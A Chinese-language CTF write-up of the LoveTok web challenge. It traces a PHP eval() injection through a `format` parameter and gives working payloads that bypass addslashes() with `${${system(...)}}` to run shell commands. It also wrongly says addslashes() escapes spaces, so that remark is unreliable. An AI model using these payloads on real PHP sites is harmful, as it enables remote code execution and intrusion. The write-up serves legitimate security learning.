




## 题目

> True love is tough, and even harder to find. Once the sun has set, the lights close and the bell has rung... you find yourself licking your wounds and contemplating human existence. You wish to have somebody important in your life to share the experiences that come with it, the good and the bad. This is why we made LoveTok, the brand new service that accurately predicts in the threshold of milliseconds when love will come knockin' (at your door). Come and check it out, but don't try to cheat love because love cheats back. 💛




## 思路

题目有源码下载，理应是从源码中寻找漏洞了。
找来找去，只有`challenge/controllers/TimeController.php`中存在可控参数`$_GET['format']`：

``` php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

跟踪定位到`TimeModel`类，代码如下：

``` php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```

很显然，要绕过`addslashes()`函数，利用`getTime()`中的`eval()`来RCE了。

## 解题

代码在`addslashes()`后没有对传入的参数做其他处理，不好闭合双引号。

但是如果使用动态变量的话，就不需要闭合双引号了。

> 在 PHP 中，{} 用于复杂的变量解析。当字符串中的变量名称与其他字符相邻并可能引起混淆时，可以使用这种语法来明确地表示变量名。而 ${} 是一种特殊的语法，它允许你通过一个字符串来动态地生成变量名。
——ChatGPT

Payload如下：

```
GET /?format=r${${system(ls)}} HTTP/1.1
```



但是`addslashes()`会对空格进行处理，我们也并没有在当前目录下找到flag，所以利用HTTP参数传入要执行的命令，是个好主意：

```
GET /?format=r${${system($_GET[aa])}}&aa=ls%20/ HTTP/1.1
```



找到`flag`:



## 参考资料

> [PHP复杂变量绕过addslashes()直接拿shell](https://www.jianshu.com/p/7c818ddc5731)